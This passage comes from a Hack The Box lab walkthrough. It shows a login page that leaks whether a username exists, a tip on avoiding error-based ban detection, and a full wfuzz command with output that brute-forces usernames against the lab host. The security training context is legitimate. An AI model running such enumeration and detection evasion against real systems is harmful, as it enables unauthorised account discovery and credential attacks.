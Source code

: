 ![](/images/hackthebox/ctf/4.png)
<br>
<br>
![](/images/hackthebox/ctf/5.png)
#### Here I noticed 2 things. First thing is that it's actually telling us if the user exists or not, which means that we can enumerate users. The other thing is that it responded normally with a `200 OK` response, so If the server identifies a bruteforce attack by monitoring how many times an ip causes errors like `404` for example, as long as we are not causing errors we won't get banned. I gave it a try to see if it will actually work. I used `wfuzz` and [`multiplesources-users-fabian-fingerle.de.txt`](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt) from [seclists](https://github.com/danielmiessler/SecLists) :
```
root@kali:~/Desktop/HTB/boxes/ctf# wfuzz -c -u http://ctf.htb/login.php -X POST -d "inputUsername=FUZZ&inputOTP=0000" -w ./multiplesources-users-fabian-fingerle.de.txt 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://ctf.htb/login.php
Total requests: 21168

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000007:  C=200     68 L      229 W         2810 Ch        "!@#%^&*("
000008:  C=200     68 L      229 W         2810 Ch        "!@#%^&*()"
000010:  C=200     68 L      229 W         2810 Ch        "*****"
000002:  C=200     68 L      229 W         2810 Ch        "!@#"
000003:  C=200     68 L      229 W         2810 Ch        "!@#%"
000004:  C=200     68 L      229 W         2810 Ch        "!@#%^"
000005:  C=200     68 L      229 W         2810 Ch        "!@#%^&"
000009:  C=200     68 L      233 W         2827 Ch        """"
000006:  C=200     68 L      229 W         2810 Ch        "!@#%^&*"
000001:  C=200     68 L      233 W         2826 Ch        "-"
```